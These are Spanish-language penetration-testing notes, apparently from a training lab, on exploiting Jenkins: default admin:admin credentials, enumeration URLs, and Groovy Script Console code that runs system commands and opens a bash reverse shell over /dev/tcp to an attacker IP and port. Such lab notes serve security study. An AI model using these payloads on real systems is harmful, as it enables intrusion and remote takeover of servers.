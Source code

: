 ### INFO

- Es un servidor de automatización escrito en java.
- Corre en un servlet container como Tomcat.
- Suele correr con permitos de system en windows.
- Suele correr en Tomcat en el puerto 8080 por default. Usa el puerto 5000 para usar slave servers.
- Es comun encontrar jenkins con contraseñas por defecto: admin:admin

### ENUM

    http://jenkins.inlanefreight.local:8000/configureSecurity/

##### Login page:

    http://jenkins.inlanefreight.local:8000/login?from=%2F

### Explotación

#### Script Console

La script console funciona como una webshell, puede encontrarse en:

        http://jenkins.inlanefreight.local:8000/script

Desde la script console podemos correr comandos con el siguiente script:

        def cmd = 'id'
        def sout = new StringBuffer(), serr = new StringBuffer()
        def proc = cmd.execute()
        proc.consumeProcessOutput(sout, serr)
        proc.waitForOrKill(1000)
        println sout

Podemos también generar una reverse shell:

        r = Runtime.getRuntime()
        p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
        p.waitFor()

